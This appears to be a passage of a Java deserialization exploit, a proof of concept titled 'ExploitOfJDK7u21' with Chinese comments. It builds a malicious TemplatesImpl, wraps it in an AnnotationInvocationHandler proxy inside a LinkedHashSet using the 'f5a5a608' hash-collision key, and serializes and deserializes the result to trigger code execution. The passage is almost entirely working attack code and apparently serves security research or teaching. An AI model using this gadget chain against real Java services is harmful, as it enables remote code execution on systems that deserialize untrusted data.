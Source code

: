 ```java
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        return  templatesImpl;
    }

    public static void exp() throws Exception {

        TemplatesImpl templates = generateEvilTemplates();
        HashMap hashMap = new HashMap();
        hashMap.put("f5a5a608", "zero");

        Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class, Map.class);
        handlerConstructor.setAccessible(true);
        InvocationHandler tempHandler = (InvocationHandler) handlerConstructor.newInstance(Templates.class, hashMap);

        // 为tempHandler创造一层代理
        Templates proxy = (Templates) Proxy.newProxyInstance(ExploitOfJDK7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);
        // 实例化HashSet，并将两个对象放进去
        HashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);

        // 将恶意templates设置到map中
        hashMap.put("f5a5a608", templates);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(set);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object object = (Object)ois.readObject();
        System.out.println(object);
        ois.close();
    }

    public static void main(String[] args) {
        try {
            exp();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

 - POC2
